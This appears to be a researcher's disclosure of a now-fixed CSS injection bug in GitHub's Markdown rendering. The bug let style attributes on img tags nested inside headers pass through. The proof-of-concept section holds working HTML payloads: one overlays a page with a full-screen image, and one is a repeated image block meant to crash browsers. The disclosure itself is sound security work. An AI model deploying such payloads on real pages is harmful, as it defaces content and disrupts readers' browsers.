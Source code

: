 # 2023/10 Github markdown vulnerability

### Executive Summary
- **Date of Discovery:** October 8, 2023
- **Date of Initial Report:** October 10, 2023
- **Date of Resolution:** October 15, 2023
- **Identified By:** Luna Davis ([Bytexenon](https://github.com/Bytexenon))
- **Classification of Vulnerability:** CSS Injection 
- **Services Impacted:** Github (https://github.com/), Github-Favored Markdown (https://github.github.com/gfm/)
- **Extent of Impact:** The vulnerability has a broad reach, affecting multiple URL patterns on GitHub. This includes user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. The specific patterns that are impacted include:
  - `https://github.com/<user,organization>` (If a malicious `README.md` exists in the user or organization's repository)
  - `https://github.com/<user,organization>/<repository>` (If the repository has a malicious `README.md` file)
  - `https://github.com/<user,organization>/<repository>/issues/<issue>`
  - `https://github.com/<user,organization>/<repository>/**.md` (Any `.md` file in any directory)
  - `https://github.com/<user,organization>/<repository>/**` (If the directory has a malicious `README.md` file)
  - Additional patterns may be affected, but these are the ones that have been tested so far. Essentially, any URL that renders a user-entered Markdown file was vulnerable.
- **Method of Discovery:** Manual Testing
- **Severity Level:** Low to Medium. The exploit does not enable arbitrary code execution, data theft, or redirection to malicious sites. However, it does allow an attacker to replace an attacker-controlled page (their own Github profile, any of their issues, etc.) with a full-screen image with any CSS styling, or to create a series of images that could crash the browser.
- **Current Status:** Resolved.

### Description

Github's markdown parser, known as cmark, allows for the use of HTML tags to enhance the formatting of the markdown. However, for security reasons, it restricts the use of certain attributes such as style and script to prevent potential Cross-Site Scripting (XSS) and CSS Injection attacks. Despite these restrictions, I discovered a bypass that allows the style attribute to be used within an `<img>` element, but only when this element is nested inside any header (`<h1>`, `<h2>`, `<h3>`, `<h4>`, `<h5>`, `<h6>`) element. This bypass can be exploited to apply arbitrary CSS styles to the image, potentially leading to various forms of visual manipulation on the rendered page.

### Discovery

While experimenting with Github's markdown parser to enhance the aesthetics of my profile's README.md file, I discovered that HTML tags were permissible in their markdown. This is a common feature in most markdown parsers to allow for more complex formatting. However, what caught my attention was the ability to use the style attribute within nested `<img>` elements that were inside any header elements. This was an unexpected behavior as the style attribute is typically restricted to prevent potential XSS/CSS-Injection attacks.

To validate this finding, I created a simple HTML page with a nested `<img>` element inside a header element and applied a style attribute to it. I then uploaded this HTML content to my Github profile's README.md file. To my surprise, the style attribute was successfully rendered, allowing me to apply arbitrary CSS styles to the image.

Intrigued by this discovery, I decided to test this behavior on other Github pages. I found that this bypass was not limited to the README.md file of my profile but was applicable on any Github page that rendered a user-entered Markdown file. This included user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. This discovery indicated a widespread impact of this vulnerability, affecting multiple URL patterns on GitHub.

### Proof of Concept

**Replace any page with Github's full-screen favicon:**
```html
<h1>
  <img style="position:fixed;left:0%;top:0%;opacity:100%;z-index:999;width:100%;height:100%;background-image:url(https://github.com/favicon.ico);">
</h1>
```

**DoS attack against any browser that renders the page:**
```html
<h1>
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
</h1>
```
(Could be repeated indefinitely to make it more effective)

### Resolution

The GitHub security team demonstrated exceptional responsiveness and efficiency in addressing the reported vulnerability. Within a week of the initial report, they successfully resolved the issue, reflecting their commitment to maintaining a secure platform. Their cooperation and assistance throughout the process were commendable.

**Screenshots of the partial conversation:**

[My initial report](images/image-1.png)

[Github's response 1](images/image-2.png)

[Github's resolution response](images/image-3.png)

The name of the security engineer has been redacted for privacy reasons.

### Archived pages of the vulnerability

[My profile](https://web.archive.org/web/20231009182556/https://github.com/ByteXenon)

This page was archived after the vulnerability was reported, but before it was resolved. It shows the exploit in action. My profile page has since been updated to remove the exploit, and the exploit was never used for malicious purposes as far as I know (which is really fortunate, because it would have been very easy to do so)

### Closing Thoughts

In retrospect, while I was aware of conventional vulnerability-reporting platforms such as HackerOne, I was not aware at the time that GitHub utilized this platform for their bug bounty program. My primary goal was to ensure the vulnerability was reported as quickly as possible, and as such, I used the most immediate channel available to me, which was GitHub's support form.

Despite this initial misstep, the experience was highly educational. The responsiveness and helpfulness of GitHub's team were commendable. Their handling of the vulnerability report serves as an excellent example for others. I look forward to potentially uncovering more vulnerabilities in their service and reporting them through the appropriate channels. Thank you for taking the time to read this report. Have a great day!
